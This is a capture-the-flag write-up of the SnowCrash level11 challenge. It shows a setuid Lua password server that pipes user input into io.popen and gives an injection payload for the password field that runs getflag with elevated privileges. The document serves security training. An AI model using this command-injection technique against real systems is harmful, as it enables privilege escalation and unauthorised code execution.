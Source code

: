 ```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

```bash
level11@SnowCrash:~$ file level11.lua 
level11.lua: setuid setgid a lua script, ASCII text executable
```

```lua
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

```bash
level11@SnowCrash:~$ netstat -tuln | grep :5151
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN  
```

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151 
Password: 
```

So, there is a server listening on port `5151`. Upon sending a request to `127.0.0.1:5151`, a prompt appears asking for a password. The entered password is then used by a function called `hash`, which, in turn, utilizes `popen`. The pass variable holds the password that was provided.

```lua
io.popen("echo "..pass.." | sha1sum", "r")
```

Since the `lua` script has the `SUID` flag set with the privileges of `flag11`, we can exploit the server by setting the value of `password` as `"something" | getflag > /tmp/pass` to execute `getflag`.

```
password : "something" | getflag > /tmp/pass
```
